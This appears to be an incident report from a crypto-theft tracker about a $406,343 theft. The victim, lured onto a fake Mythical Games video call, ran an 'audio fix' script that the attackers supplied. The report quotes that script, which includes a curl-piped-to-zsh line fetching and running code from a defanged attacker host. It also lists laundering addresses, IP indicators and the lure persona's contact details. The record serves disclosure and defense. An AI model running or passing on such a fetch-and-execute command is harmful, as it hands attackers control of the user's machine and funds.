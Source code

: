 # A6 via Fake Mythical Games

Date:: February 28th, 2025

Time:: 12:25 UTC – 01:58 UTC, 23:09 UTC

Amount Stolen:: $406,343

Tags:: 🔑 SquidSquad

---


## Details

Had a video call with the exploiters

Was an issue with the sound

Victim ran the suggested fix script provided by the exploiters.

On call were 3 males. 2 didnt speak, one did. Seemed like live interaction (?)

- “John Linden” - @mythicaljohn - 7440942015

- https://calendly.com/john-mythicalgames/30min?month=2025-03

- meet[.]mythicalgames[.]foundation/zoom/join?mn=65185420&pwd=r47BVC

```
system_profiler SPAudioData
softwareupdate --evaluate-products --products audio --agree-to-license
curl -A audio -s https://api.zoom-sdk[.]us/update/drivers/65185420 | zsh
system_profiler SPSoundCardData
softwareupdate --evaluate-products --products soundcard
system_profiler SPSpeechData
softwareupdate --evaluate-products --products speech --agree-to-license
```

## Onchain

- TK3E1NWkehLoBKUWbhjUudxxjN4abYdu7T - Direct Theft
- EQAq887cEkvOMBdafawfjl8JqKIsk3DQopMT8q79D7r - Direct Theft
- 0x37ef7efda71203f17f26730611bd8eef11f5f8af - Primary Theft
- 0xd5944357a065245064a8b8dfc58e789a90dce0f6 - Consolidation
- TGoZ4yeuG13ysYYZEX334PvnqyWDnDJ2JT - Source of Gas Funds (Feb 28 2025)
- TAJFh3AqQKm6bvUYejJrH3k8htwTbunn5g - Source of Gas Funds (Feb 28 2025)
- 0x73565a7488cb4853c17923d88da3ccb81fd9aa8e - eXch Deop ($192k, Mar 14 2025)
- 0x0c52194fd9148de91e96a8e123ab90f1482c6449 - eXch Depo ($218k, Mar 14 2025)
- bc1q9knpsljy40j5jmphcyl7nzvhjvch5gp6kzhwnn - eXch Withdrawal ($191k)

- Used Defiway, ChangeNOW, FixedFloat, Symbiosis, OKX Dex, Bridgers from TRON and TON -> ETH



## Indicators

- Feb 28 2025 - 85.203.44.XX
- Mar 3 2025 - 103.125.146.XX
- Mar 3 2025 - 103.163.220.XX
- Mar 3 2025 - 83.234.227.XX (Leaked TTK)
- Mar 3 2025 - 212.30.36.XX
